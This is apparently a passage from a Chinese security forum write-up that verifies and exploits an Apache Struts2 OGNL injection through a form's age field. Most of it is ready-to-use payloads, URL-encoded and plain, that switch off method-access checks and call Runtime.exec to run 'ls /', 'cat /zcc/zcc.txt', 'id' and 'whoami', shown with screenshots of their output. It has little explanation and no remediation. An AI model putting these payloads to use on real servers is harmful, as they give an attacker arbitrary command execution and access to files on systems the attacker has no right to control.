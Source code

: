 #### 验证漏洞

##### 在年龄中输入非数字类型点击登录，年龄框中的value变成11，即可证明漏洞存在！

![image-20210708164207663](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-858cc51d027656085cedcd5876a8e668c1db044f.png)

##### 查找底层目录信息

##### poc

```php
%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27ls%20/%27%29.getInputStream%28%29%29%29+%2B+%27
```

![image-20210708164825548](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9f6eb1c81ea57faf3ae97ffb713acb862d95fb56.png)

##### 枚举zcc.txt信息

##### poc

```php
%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27cat%20/zcc/zcc.txt%27%29.getInputStream%28%29%29%29+%2B+%27
```

![image-20210708165538612](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4e559b0070f4ce0be0fa1b8c0b2ab5c11ca236cb.png)

![image-20210708165612582](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-cf96ccaed89bf507252ca3760bd0bdf1123148fb.png)

##### 可以执行任意代码的exp

```php
' + (#_memberAccess[&quot;allowStaticMethodAccess&quot;]=true,#foo=new java.lang.Boolean(&quot;false&quot;) ,#context[&quot;xwork.MethodAccessor.denyMethodExe
cution&quot;]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

![image-20210708170330738](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-91b503672ba9d925f94eee339bb10997dece6852.png)

![image-20210708170344336](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9467bb072acb5886e9ae6d6d2bf928ccc97e0aba.png)

```php
%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29+%2B+%27
```

![image-20210708170521479](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4eb28485176b509d01b75ceec1bc8414f9d151e6.png)

